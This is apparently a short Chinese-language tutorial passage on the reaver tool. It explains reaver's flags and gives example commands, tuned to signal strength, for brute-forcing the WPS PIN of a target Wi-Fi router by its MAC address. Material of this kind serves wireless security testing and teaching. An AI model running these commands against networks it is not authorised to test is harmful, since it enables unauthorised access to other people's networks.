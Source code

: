 ![enter image description here](img/img11_u29_jpg.jpg)

```
Reaver -i mon0 -b xx:xx:xx:xx -vv 
```

reaver 命令参数

> -i 监听后接口名称
> 
> -b 目标 mac 地址
> 
> -a 自动检测目标 AP 最佳配置
> 
> -S 使用最小的 DH key（可以提高 PJ 速度）
> 
> -vv 显示更多的非严重警告
> 
> -d 即 delay 每穷举一次的闲置时间 预设为 1 秒
> 
> -t 即 timeout 每次穷举等待反馈的最长时间
> 
> -c 指定频道可以方便找到信号，如-c1 指定 1 频道，大家查看自己的目标频道做相应修改 （非 TP-LINK 路由推荐–d9 –t9 参数防止路由僵死

示例：

```
reaver -i mon0 -b MAC -a -S –d9 –t9 -vv 
```

应因状况调整参数（-c 后面都已目标频道为 1 作为例子） 目标信号非常好:

```
reaver -i mon0 -b MAC -a -S -vv -d0 -c 1 
```

目标信号普通:

```
reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1 
```
